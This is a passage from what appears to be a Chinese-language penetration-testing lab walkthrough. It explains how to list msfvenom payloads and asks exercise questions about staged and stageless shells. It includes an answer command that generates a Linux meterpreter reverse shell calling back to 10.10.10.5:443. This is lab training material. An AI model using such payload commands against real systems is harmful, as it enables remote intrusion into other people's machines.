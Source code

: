 ```bash
msfvenom --list payloads
```
该命令可用于列出所有可用 payloads，我们可在该命令后拼接上管道符以及 `grep` 命令来查找特定 payloads 集合。举个例子：

![](https://i.imgur.com/D6TjHG3.png)


以上命令会给出 32 位 linux 目标的 neterpreter paylodas 的完整集合。
    
**回答以下问题：**
1. 生成一个用于 64 位 Windows 目标的 staged 反向 shell（.exe 格式）
2. 哪个符号被用来表明一个 shell 是 stageless 的？
    
3. 使用什么命令生成一个用于 64 位的 Linux 目标的 staged meterpreter 反向 shell？假定你的 ip 是 10.10.10.5，监听的端口是 443，shell 的格式是 `elf`，输出的文件名是 `shell`
    
 
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp -LHOST=10.10.10.5 -LPORT=443 -f elf -o shell
```

### 2.10 Metasploit multi/handler

Multi
    
    